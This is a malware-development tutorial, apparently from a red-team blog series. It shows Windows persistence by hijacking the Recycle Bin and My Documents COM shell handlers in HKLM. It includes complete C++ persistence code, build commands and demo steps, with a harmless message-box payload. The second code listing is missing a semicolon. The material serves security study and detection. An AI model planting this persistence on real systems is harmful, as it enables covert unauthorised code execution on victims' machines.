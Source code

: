 \newpage
\subsection{87. malware development: persistence - part 21. Recycle Bin, My Documents COM extension handler. Simple C++ example.}

﷽

![pers](./images/85/2023-01-20_00-28.png){width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via modifying Recycle Bin COM extension handling.     

### CLSID list

Certain special folders within the operating system are identified by unique strings:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - My Computer     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - My Documents     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - My Network Places     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Network Computers     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Printers and Faxes      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Recycle Bin       

Adding the `open\command` subkey to the CLSID and adding a new verb for the `shell` key will execute the value stored in the `\command` entry.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, the logic is simple.    

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query 
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" 
/s
```

![pers](./images/85/2023-01-19_23-39.png){width="80%"}    

Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-16.png){width="80%"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

![pers](./images/85/2023-01-19_23-49.png){width="80%"}    

As you can see, our "malware" works perfectly.    

At the next step, just compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-35.png){width="80%"}    

Finally, run this persistence script at the victim's machine and check Registry again:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](./images/85/2023-01-20_00-19.png){width="80%"}    

So, as you can see, subkey added and the key value is set.    

Then, try to open Recycle Bin:    

![pers](./images/85/2023-01-20_00-25.png){width="80%"}    

![pers](./images/85/2023-01-20_00-25_1.png){width="80%"}    

If we open `ProcessExplorer` and see properties of `hack.exe`:     

![pers](./images/85/2023-01-20_06-59.png){width="80%"}    

we can notice that its parent process is `explorer.exe (1680)`.     

Perfect! =^..^=

### what about another CLSID from the list?    

I made a small change to the persistence script:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
      // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
      // (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Compile and run at the victim's machine:      

```powershell
.\pers.exe
reg query 
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

![pers](./images/85/2023-01-20_07-09.png){width="80%"}    

But... Not working for me at Windows 10 as they use that stupid Start Menu, I can't find `My Documents` folder on the Desktop feature.    

I also try to do this trick with another CLSID at the `Windows 7 x86` machine. It works for `My Computer` folder.     

![pers](./images/85/2023-01-20_07-22.png){width="80%"}    

![pers](./images/85/2023-01-20_07-35.png){width="80%"}    

I don’t know if any APT groups or malware family applies this trick.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     
